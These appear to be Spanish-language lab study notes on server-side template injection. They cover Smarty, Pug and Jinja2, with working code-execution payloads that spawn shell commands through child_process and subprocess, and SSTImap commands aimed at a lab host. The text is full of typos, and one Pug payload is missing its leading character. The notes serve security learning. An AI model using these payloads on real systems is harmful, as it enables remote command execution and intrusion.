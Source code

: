 # Server Side Template Injection

# Introducción

Server-Side template injecition, o SSTI, es una vulnerabilidad que ocurre cuando el usaurio inpute y injecta dentro de template de una aplicación. Esto puede recorrer un rango de fallos de seguridad, incluyendo codigo de ejecución, datos expuesto, escala de privielgios, denegación de servicio. Las vulnerabilidades SSTI suelen econtrarse en apliaciones web que usan templates engines y generar contenido dinamido y generar consecuencias

# Objetivos

- Etender las funciones básicas de las plantillas y porque se integran en las aplicaciones web
- Identificar vulnerabilidades con las apliaciones web con SSTI
- Ejecutar ataques con diferentes plantillas como Smarty (PHP), Jinja2(Python) y Jade (NodeJS)

# Plantillas

Una plantilla es como una maquina que ayuda a construir la web dinamicamente. Así funciona:

1. Plantilla
2. Inputs de usuario
3. Combinaciones
4. Output

Los motores de plantilla tienen varias funciones que aumentan a los desarrolladores procesos que pueden introducir fallos. Los mayores motores de plantilla tienen expresiones de como usar simple calculos o operadores logicos

En el contexto de un SSTI, el motor de plantilla esta habilitado para ejecuta codigo y hacer los ataques vulnerables. Si el usuario inputea y no esta propiamente sanitizado, el atacante puede generar código malicioso, con la plantilla el motor se ejecuta.

## Como funcionan

```
from jinja2 import Template

hello_template = Template("Hello, {{ name }}!")
output = hello_template.render(name="World")
print(output)
```

## Saber cual es

Jinja2/Twig

![image](https://github.com/user-attachments/assets/3d255028-555b-487d-8383-7be63dda363f)

![image](https://github.com/user-attachments/assets/37576782-8951-421c-a227-40d1ef5b5d3f)

Jade/Pug

![image](https://github.com/user-attachments/assets/ecca69f0-61be-42b2-a1cb-04f2e69a9d0b)

![image](https://github.com/user-attachments/assets/e5161653-b5af-4044-a85f-1ee6c965daea)

# PHP- Smarty

Smarty es una herramienta muy importante, es otro motor de plantilla en php

## Explotación

![image](https://github.com/user-attachments/assets/e8450429-0531-4f64-bb0a-b132927f0d75)

![image](https://github.com/user-attachments/assets/df691488-5846-42e0-af80-c16285f133f9)

Confirmado que funciona..

# NodeJS - Pug

Pug (anteriormente conocido como Jade) Es un motor de plantilla que usa Node.js renderizando HTML como condicionales, iteraciones y plantillas. Mientras Pug da bastantes buenas herramientas a los desarrolladores, esta disponible para ejectuar código JS directamente sin la necesidad de la plantilla.

Las vulnerabilidades normalmente entran poir lo anterior

## Explotacion

![image](https://github.com/user-attachments/assets/848b8ae1-62a4-4931-928d-639d263c64e4)

```
#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}
```

![image](https://github.com/user-attachments/assets/79407ef5-a49d-4a53-8b63-88d22c56a7c8)

```
{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}
```

# Python - Jinja2

## Explotación

![image](https://github.com/user-attachments/assets/822e9708-10d9-4c4a-8750-bacb5c1ad287)

```
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```

![image](https://github.com/user-attachments/assets/40db1b5b-e468-4de7-84c2-1dd24f4aaec7)

![image](https://github.com/user-attachments/assets/4ea81fd5-8eb0-4ef3-b6bb-c572c8e7cd55)

![image](https://github.com/user-attachments/assets/03b047d2-302d-4edb-8e54-5f5475f3969a)

```
subprocess.check_output([command, arg1, arg2])
```

```
subprocess.check_output(['ls', '-lah'])
```

![image](https://github.com/user-attachments/assets/d41f8497-0dc1-43f8-991b-e786b99bcf8e)

# Automatización

SSTImap es una herramienta para automatizar el proceso y testear vulnerabilidades

https://github.com/vladko312/SSTImap

```
pip install -r requeriments.txt
```

```
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

## Ejempl

```
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```











